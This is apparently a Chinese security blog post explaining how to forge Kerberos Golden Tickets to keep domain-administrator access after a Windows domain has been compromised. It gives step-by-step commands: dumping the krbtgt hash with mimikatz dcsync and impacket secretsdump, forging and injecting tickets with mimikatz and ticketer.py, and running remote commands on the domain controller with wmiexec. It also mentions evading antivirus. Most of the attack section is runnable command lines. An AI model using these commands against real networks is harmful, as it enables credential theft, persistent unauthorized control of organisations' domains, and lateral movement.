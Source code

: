 ```yaml
---
layout: post
title: Pass the Ticket——Golden Ticket
date: 2018-12-26 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  
导出域管hash或明文密码后并不一定万事大吉，如果所有域管全部更改密码后我们之前的导出的hash和密码就没用了，如果我们还有域内机器普通用户的权限的话，可以通过本文的方法找回域管权限。今天主要聊一下在域渗透后期如何利用Kerberos认证过程中的问题来维持域权限。  

![golden ticket](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/golden%20ticket.jpg?raw=true)  
图片来源于:https://image.slidesharecdn.com



### \#0x01 原理简介
在Kerberos认证过程中，用户的Ticket都是由Kerberos用户krbtgt的密码Hash生成的，如果获得了krbtgt的密码hash，则可以伪造任意用户的Ticket，当然我们关心的是域管的Ticket。  
详细的Kerberos认证过程和Pass the Ticket的过程参见【参考】部分。  


### \#0x02 Golden Ticket利用之mimikatz

##### 一、获取伪造Ticket所需数据
伪造Ticket所需的数据主要有  
1、krbtgt用户的nt hash  
2、域SID   
3、域内机器普通用户权限  

krbtgt的hash值可以在域控上通过mimikatz获取，在域控上执行如下命令  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```
![get krbtgt hash](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/get%20krbtgt%20hash_1.jpg?raw=true)  

从上图中可以得到nt hash：30eefxxxxxxxxxxxxxxxxxxxxxxxcbc4e和域SID：S-1-5-21-xxxxxxxxx-xxxxxxxxxxx1-xxxxxxxxxxxxx  

##### 二、伪造Golden Ticket并导入——Pass the Ticket
使用非域管账户登录域内已控的机器，在该机器上伪造域管Ticket。  
1、首先查看下系统是否已有tgt  
```
mimikatz # kerberos::tgt
```
![have no tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20tgt.jpeg?raw=true) 
  
2、验证在没有tgt的情况下本地用户是否具有域管权限  
访问域内其他机器需要认证的共享文件  
![have no permission](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20permission_1.jpg?raw=true)  
没有访问的权限  

3、生成tgt  
这里以域domain_name 和拟伪造的域管AD_admin_user为例进行说明  
```
mimikatz # kerberos::golden /user:AD_admin_user /domain:domain_name /sid:S-1-5-21-168xxxxx-3676xxxxxx1-34xxxx0176 /krbtgt:30eef769c3xxxxxxxxxxxcbc4e /ticket:AD_admin_user.kiribi
```
命令执行完成后，将在本目录下生成文件AD_admin_user.kiribi  

4、导入tgt 
``` 
mimikatz # kerberos::ptt AD_admin_user.kiribi
```

5、查看导入是否成功  
```
mimikatz # kerberos::tgt
```
![import success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/import%20success_1.jpg?raw=true) 
导入成功  

6、尝试访问域内其他机器上的文件  
```
dir \\vas-xxxxxx\c$
```
![success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/success_1.jpg?raw=true) 
Pass the Ticket成功，可以以非域管账户执行域管命令，执行其他域管命令请参照【参考】  

### \#0x03 Golden Ticket利用之ticketer（跨平台利用）
在横向移动的过程中，使用mimikatz利用Golden Ticket时有以下限制：  
1、需要一台windows机器的权限且安装mimikatz  
2、使用mimikatz需要免杀  
在已控的可与域内主机（如域控）通信的linux机器上使用impacket的ticketer等工具可解决上面的问题。  

##### 一、需要的条件
* krbtgt account NT hash
* domain SID
* domain FQDN
* user to impersonate（一般选择域管）

用到的工具主要为impacket的ticketer.py  

##### 一、获取伪造Ticket所需数据
方法一（获取krbtgt hash）：  
```
secretsdump.py domainname/domain_admin_username@dc_ip -hashes domain_admin_username_lmhash:domain_admin_username_nthash -just-dc
```
方法二（获取krbtgt hash）：  
参见 [导出域内所有用户hash](https://pythonpig.github.io/2018/12/09/导出域内所有用户hash/)

方法三：  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```

##### 二、伪造Golden Ticket
利用ticketer.py生成伪造的ticket  
```
ticketer.py -nthash krbtgt_account_NT_hash -domain-sid S-1-5-21-168xxxxxx-367xxxxxxx-3458xxxxx -domain domain_FQDN user_to_impersonate
``` 
如  
```
ticketer.py -nthash 11111111111111111111111111111 -domain-sid S-1-5-21-11111111-222222222-33333333 -domain testdomainname Administrator
```
执行后生成user_to_impersonate.ccache
##### 三、导入并利用
```
1、export KRB5CCNAME=/absolute_path/user_to_impersonate.ccache
2、wmiexec.py -no-pass -k domain_name/user_to_impersonate@dc_hostname_or_dc_ip -dc-ip dc_ip
```
impacket中的不少工具都支持上述方式利用Golden Ticket。  
注：因为利用Golden Ticket的这台linux机器并不是域内机器，与域控可能存在时间不同步的问题，一般当时间差大于5分钟时会发生"Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)"错误，解决办法如下：  
1、ntpdate dc_ip （与域控进行时间同步，域控一般作为ntp server）  
或  
2、获取域内主机或域控的时间,调整linux机器的时间与域控时间差在5分钟以内：date -s 20:08:00    

### \#0x04 参考
* [域渗透的金之钥匙](http://drops.wooyun.org/tips/9591)
* [域渗透——Pass The Ticket](http://drops.wooyun.org/tips/12159)
* [谈谈基于Kerberos的Windows Network Authentication[上篇]](http://www.cnblogs.com/artech/archive/2007/07/05/807492.html)
* [[原创]谈谈基于Kerberos的Windows Network Authentication - Part II](http://www.cnblogs.com/artech/archive/2007/07/07/809545.html)
* [敞开的地狱之门：Kerberos协议的滥用](https://www.freebuf.com/articles/system/45631.html)
* [How To Pass the Ticket Through SSH Tunnels](https://bluescreenofjeff.com/2017-05-23-how-to-pass-the-ticket-through-ssh-tunnels/)

